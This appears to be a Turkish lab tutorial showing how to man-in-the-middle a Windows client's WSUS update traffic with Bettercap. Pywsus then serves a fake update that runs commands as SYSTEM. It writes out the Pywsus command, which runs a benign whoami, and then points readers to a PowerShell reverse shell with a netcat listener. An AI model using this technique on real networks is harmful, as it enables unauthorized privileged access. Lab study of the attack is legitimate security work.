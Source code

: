 # Pywsus Aracı ile WSUS Güncellemesine Zararlı Yazılım Enjeksiyonu

Bu yazıda inceleyeceğimiz araç WSUS Server’dan güncelleme çeken bir bilgisayara gerekli güncelleme yerine sahte bir güncelleme dosyası göndermemizi ve istediğimiz komutu yetkili kullanıcı olarak çalıştırmamızı sağlar.

Çok kullanıcılı şirketler internet trafiği sıkıntısı çekmemek adına güncellemeleri Microsoft Sunucularından kendi güncelleme sunucularına çekerek tek bir indirme ile iç ağda belki de binlerce cihaza güncellemeyi sağlayabilir.

10.000 tane bilgisayarın Windows güncellemelerini Microsoft sunucularından ayrı ayrı indirdiğini bir hayal edin.

- WSUS Server: Windows Server üzerinde Windows Update Center’dan gerekli updateleri kendi üstüne indirerek yapıdaki diğer cihazlara bu updateleri iletmekle görevli yapıdır.
- Pywsus: Kendine gelen güncelleme isteğine sahte güncelleme yöntemi ile cevap vererek istediğimiz bir komutu NT AUTHORITY\SYSTEM hakları ile çalıştırmamızı sağlar.

Deneme yapmak için gereken Lab ortam bilgileri aşağıda belirtilmiştir:

- Saldırgan Sistem: Kali Linux 2021.2
- Hedef Sistem: Windows 10 1909
- Bettercap: Kali Terminalde “sudo apt install bettercap” komutu ile yükleyebilirsiniz.
- Pywsus Kali Terminalde “git clone https://github.com/GoSecure/pywsus.git” komutu ile github’dan programı indirebilir veya github linkinden zip dosyası olarak indirip kullanabilirsiniz. Sonrasında yine link üzerindeki installation kısmının altındaki gereksinimleri uygulayarak uygulamamızı hazır hale getiriyoruz.

**Gerçekleştirilecek saldırı senaryosu:**

Bu saldırı senaryosunda ağ üzerinden erişilebilen Windows 10 makinenin WSUS Server’dan güncelleme yükleme isteği sırasında trafiği kendi makinemize yönlendirerek ve sahte bir güncellemeyi araya sokarak hedef sistemimize yetkili kullanıcı olarak erişmeye çalışacağız, bunun için öncelikle ortadaki adam olup trafiğe müdahale edebilmemiz gerekiyor.

**Uygulama:**

Öncelikle saldırıda kullanacağımız Bettercap aracını Kali Linux’e yüklüyoruz.

![Untitled](Pywsus%20Arac%C4%B1%20ile%20WSUS%20Gu%CC%88ncellemesine%20Zararl%C4%B1%20Yaz%C4%B1%20fb8a445a571f4207a90cfb1997994e96/Untitled.png)

Yükleme gerçekleştikten sonra gerekli olan diğer aracımızı yani Pywsus aracını yüklüyoruz. Bunun için öncelikle masaüstüne geliyoruz ki dosyamızı masaüstüne indirelim.

![Untitled](Pywsus%20Arac%C4%B1%20ile%20WSUS%20Gu%CC%88ncellemesine%20Zararl%C4%B1%20Yaz%C4%B1%20fb8a445a571f4207a90cfb1997994e96/Untitled%201.png)

Sonra git clone komutu ile aracımızı github’dan indiriyoruz.

![Untitled](Pywsus%20Arac%C4%B1%20ile%20WSUS%20Gu%CC%88ncellemesine%20Zararl%C4%B1%20Yaz%C4%B1%20fb8a445a571f4207a90cfb1997994e96/Untitled%202.png)

Klasör indikten sonra klasörün içine gidiyorum komut satırında ve sırası ile aşağıdaki komutları çalıştırıyorum.

![Untitled](Pywsus%20Arac%C4%B1%20ile%20WSUS%20Gu%CC%88ncellemesine%20Zararl%C4%B1%20Yaz%C4%B1%20fb8a445a571f4207a90cfb1997994e96/Untitled%203.png)

Öncelikle işlemlere başlamadan önce Windows cihazımızı network üzerinde gördüğümüzden ve erişimimiz olduğundan emin oluyoruz ama zaten bizim senaryomuzda biz ağa sızdık ve Windows cihaza erişiyoruz ve WSUS serveri tespit edilmiş durumda, bu işlemler farklı bir yazının konusu olduğu için buraya girmiyoruz ve bu senaryodan devam ediyoruz, amacımız karşı makinede admin yetkisi ile komut çalıştırmak.

Öncelikle Bettercap ile bağlantı yapmak için hazırlıklarımızı yapıyoruz ve aşağıdaki bilgileri bir metin editöründe satır satır yazıp WSUS.cap olarak kaydediyoruz.

![Untitled](Pywsus%20Arac%C4%B1%20ile%20WSUS%20Gu%CC%88ncellemesine%20Zararl%C4%B1%20Yaz%C4%B1%20fb8a445a571f4207a90cfb1997994e96/Untitled%204.png)

Gerekli ayarlamalarımızı yaptıktan sonra artık bettercap aracımızı çalıştırıp hedef ip mizden çıkan 8530 portunu kullanan bütün istekleri kendimize yönlendirelim.

![Untitled](Pywsus%20Arac%C4%B1%20ile%20WSUS%20Gu%CC%88ncellemesine%20Zararl%C4%B1%20Yaz%C4%B1%20fb8a445a571f4207a90cfb1997994e96/Untitled%205.png)

- -iface parametresi ile bizim hedef makineye eriştiğimiz interfaceyi seçiyoruz, eğer bilmiyorsak bunu “ifconfig” komutu ile internet bilgilerimizi listeleyerek görebiliriz.
- -caplet parametresi ile gerekli ayarları ve komutları çekeceğimiz dosyayı belirliyoruz ki bu dosya bizim az önce hazırladığımız dosya.

Daha sonra indirip hazırlığını yaptığımız programı çalıştırıyoruz ve gelecek güncelleme isteklerini dinlemesi için bekletiyoruz.

![Untitled](Pywsus%20Arac%C4%B1%20ile%20WSUS%20Gu%CC%88ncellemesine%20Zararl%C4%B1%20Yaz%C4%B1%20fb8a445a571f4207a90cfb1997994e96/Untitled%206.png)

`python3 pywsus.py -H 10.0.2.6 -p 8530 -e PsExec64.exe -c '/accepteula /s cmd.exe /c "whoami > C:\\poc.txt" '`

Eğer hedefimiz biz bu şekilde dinlerken update yapmaya çalışırsa komut olarak yazdığımız cmd.exe’de çalıştırılacak whoami komutu C disk’in içerisinde poc.txt adında bir dosyaya yazdırılacak.

Güncelleme isteği geldiği zaman programımız güncelleme cevabı dönerek aksiyon aldı ve istediğimiz fonksiyonu yerine getirdi. Şimdi hedef makinemizi kontrol edelim bakalım neler olmuş.

![Untitled](Pywsus%20Arac%C4%B1%20ile%20WSUS%20Gu%CC%88ncellemesine%20Zararl%C4%B1%20Yaz%C4%B1%20fb8a445a571f4207a90cfb1997994e96/Untitled%207.png)

Komutu hangi kullanıcı hakları ile çalıştırdığımızı da poc.txt içinden görebiliyoruz.

![Untitled](Pywsus%20Arac%C4%B1%20ile%20WSUS%20Gu%CC%88ncellemesine%20Zararl%C4%B1%20Yaz%C4%B1%20fb8a445a571f4207a90cfb1997994e96/Untitled%208.png)

Dolayısıyla buradan şunu anlıyoruz ki biz cmd.exe yi çalıştırıp whoami komutunu girip çalıştırdığımızda biz bu komutu nt authority\system olarak çalıştırıyoruz ki bu kullanıcı admin yetkilerine sahip bir kullanıcıdır. (aslinda "nt authority\system" ne bir kullanici, ne de bir gruptur. Security ID ismidir, servis hesaplarinin yetkilendirilmesi icin kullanilir, SID i baska kullanicilara veya servis hesaplarina eklenebilir ornegin. Gorev yoneticisinde "SYSTEM" olarak gorunur).

Yapabileceğimiz bir diğer şey ise tabii sisteme erişmeye çalışmak olacaktır ki bunu da komutta küçük bir değişiklik yaparak cmd.exe üzerinden powershell.exe’yi çalıştırmasını söyleriz, ardından whoami komutu çalıştırdığımız kısımda da [buradan](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) bulabileceğimiz powershell reverse shell komutlarını kendi IP adresimize göre düzenleyip çalıştırarak ve ardından belirlediğimiz portu netcat ile dinleyerek sisteme erişim sağlayabiliriz, sonrasında yapacaklarınız hayal gücünüze kalmış.
 
